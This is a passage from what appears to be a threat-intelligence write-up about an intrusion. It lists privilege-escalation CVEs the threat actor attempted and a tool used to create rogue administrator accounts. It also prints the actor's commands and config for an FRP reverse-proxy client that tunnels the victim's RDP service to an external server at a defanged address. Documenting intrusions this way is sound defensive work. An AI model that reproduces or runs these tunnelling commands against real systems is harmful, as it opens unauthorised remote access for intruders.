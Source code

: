 `C:\ProgramData\FFICreateAdminUser.exe` - The threat actor leveraged a open source tool developed by `Tas9er` to create new Administrator accounts

From the Cobalt Strike timelines, we were able to ascertain the threat actor attempted to exploit the below vulnerabilities. 

```
CVE-2024-30088, CVE-2023-28252, CVE-2020-0796, CVE-2023-36802, CVE-2018-8120, CVE-2017-0213, CVE-2022-24521, CVE-2021-36955, CVE-2021-1732, CVE-2022-24481, CVE-2023-23376, CVE-2022-35803, CVE-2021-43226, CVE-2024-35250, CVE-2024-26229, CVE-2024-21338, CVE-2021-1675, CVE-2021-40449

MS13-046, MS16-032, MS15-051
```

## Command & Control

```bash
https://github.com/fatedier/frp/releases/download/v0.36.2/frp_0.36.2_windows_amd64.zip
( echo @echo off echo set COMPAT_LAYER=Win7RTM echo set __COMPAT_LAYER=Win7RTM echo frpc.exe -c frpc.toml ) > run_frpc.bat
type C:\ProgramData\frpc.toml
frpc.exe -c frpc.toml
```

* Threat actor leveraging FRP (Fast Reverse Proxy) client with a config `C:\ProgramData\frpc.toml`:

```bash
serverAddr = "103.215.77[.]214"
serverPort = 4444

[[proxies]]
name = "rdp7"
type = "tcp"
localPort = 3389
remotePort = 6008
```

The above FRP client will connect to the proxy on `103.215.77[.]214:4444` and tunnel its RDP service to port `6008`

[![2](/assets/images/china/image1.png)](/assets/images/china/image1.png){: .full}
